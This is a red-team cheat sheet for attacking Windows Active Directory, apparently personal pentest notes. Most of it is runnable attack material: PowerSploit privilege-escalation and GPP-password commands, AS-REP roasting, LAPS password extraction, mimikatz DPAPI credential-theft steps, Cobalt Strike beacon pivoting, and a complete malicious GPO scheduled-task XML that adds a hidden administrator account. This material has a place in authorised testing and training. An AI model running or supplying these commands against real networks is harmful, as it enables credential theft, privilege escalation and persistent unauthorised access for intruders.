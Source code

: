 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound \(\(Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV\) and basic net enumeration \(net view, computers, dclist, domain\_trusts\) try looking for the following:

Next try running

**Powerup**

```
powershell-import /opt/PowerSploit/Privesc/PowerUp.ps1
powershell Invoke-AllChecks
```

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

**Group functions**

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Management Users"`Gets members of users who can use WinRM on a specific machine.

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Desktop Users"`Gets members of users who can RDP to a specific machine.

**Determine if kerberos pre-auth is not set**

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
GPP for setting admin passwords really only applicable to windows 2008 and older. 
After that LAPS is the standard method. 
Still useful to check though in case didn't clean up somewhere

#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
powershell-import /opt/PowerSploit/Exfiltration/Get-GPPPassword.ps1
powershell Get-GPPPassword

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1


(if using offline then use gpp-decrypt) 
```

Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

**LAPS:**

Note: This access is not currently in Bloodhound but is planned for a future update

```
#Import the script into memory
powershell-import /opt/LAPSToolkit/LAPSToolkit.ps1

#Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
powershell Find-LAPSDelegatedGroups

#Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights".
powershell Find-AdmPwdExtendedRights 

#Displays all computers with LAPS enabled, password expriation, and password if user has access
powershell Get-LAPSComputers
```

[https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/](https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/)

[https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)

**Token Notes:**

You can create a token and pass to obtain a shell when not in elevated process. Additionally, only psexec/psexec\_psh work with make\_token, not winrm or wmi

```
make_token .\Administrator P@ssw0rd
ls \\dc01\c$
```

**Credential Manager & DPAPI:**

If assume / know the machine is used for RDP, there might be saved credentials.

```
shell vaultcmd /listcreds:"Windows Credentials" /all
```

These credentials are stored within the users directory,:

```
powershell Get-ChildItem C:\Users\<User>\AppData\Local\Microsoft\Credentials\ -Force
```

Take the output from above command to get details

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from above command>
```

Get the Masterkey from cache

```
mimikatz !sekurlsa::dpapi
```

Obtain password

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from earlier command> /masterkey:<key from above command>
```

**Proxychains & RDP:**

```
beacon> socks 1337
nano /etc/proxychains.conf socks4 127.0.0.1 1337
proxychains xfreerdp /u:<username> /v:<IPADDRESS>
```

**GPO Permissions:**

[https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

```
powershell-import /opt/Empire/data/module_source/situational_awareness/network/powerview.ps1

#this outputs the GPOs applied to the WKS01 system
powershell Get-NetGPO -ComputerName WKS01
```

GPOs can also be viewed in blooodhound now, first type system name in the search field, click node then look at effective inbound GPOs, if one is hanging off from the rest then look into it by noting the GUID and then looking at the ouput of the poweshell command above

```
powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

note the applicable  gpcfilesyspath and then  
 determine what you can edit and possibly upload a malicious ScheduledTasks.xml

Example Malicious XML

```
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}">
    <ImmediateTaskV5 clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" name="OLDGPO" image="0" changed="2016-03-20 12:50:28" uid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" userContext="0" removePolicy="0">
        <Properties action="C" name="OLDGPO" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>powershell</Command>
                        <Arguments>-c "net user coolguy P@ssw0rd1234 /add; net localgroup administrators torch /add"</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV5>
</ScheduledTasks>
```

**Note:**

**Reading ACE**

ObjectDN - the target of the ACE

Identity Reference - Item that has rights to ObjectDN

ActiveDirectoryRights - Dictates what the IdentityReference can do to ObjectDN

**Resources:**

[https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/](https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://legacy.gitbook.com/book/d00mfist1/ctf/edit#)

[https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html)

